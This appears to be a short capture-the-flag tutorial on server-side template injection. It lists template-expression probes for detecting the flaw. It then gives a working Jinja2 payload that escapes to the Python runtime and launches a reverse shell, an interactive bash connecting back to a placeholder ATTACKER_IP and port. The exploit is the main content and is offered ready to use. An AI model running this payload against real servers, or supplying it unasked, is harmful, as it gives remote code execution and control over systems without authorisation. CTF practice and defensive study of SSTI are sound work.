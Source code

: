 # Server-Side Template Injection (SSTI)
A simple tutorial of SSTI commonly used in Capture The Flag (CTF). It is a guide to detect SSTI and possibly obtain remote code exection (RCE) on the server.

# Detect if the server is vulnerable to SSTI:
To test for vulnerability, try these each of the payloads below. The expected result should be the multiplication of 7 and 7 which is equal to 49. If one of the payloads return the expected result (i.e. 49), then the server is vulnerable to SSTI.
```
{{7*7}}
${7*7}
<%= 7*7 %>
${{7*7}}
#{7*7}
*{7*7}
```
# RCE
'''
{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"<bold>ATTACKER_IP</bold>\",<bold>ATTACKER_PORT</bold>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/bash\", \"-i\"]);'").read().zfill(417)}}{%endif%}{% endfor %}
'''
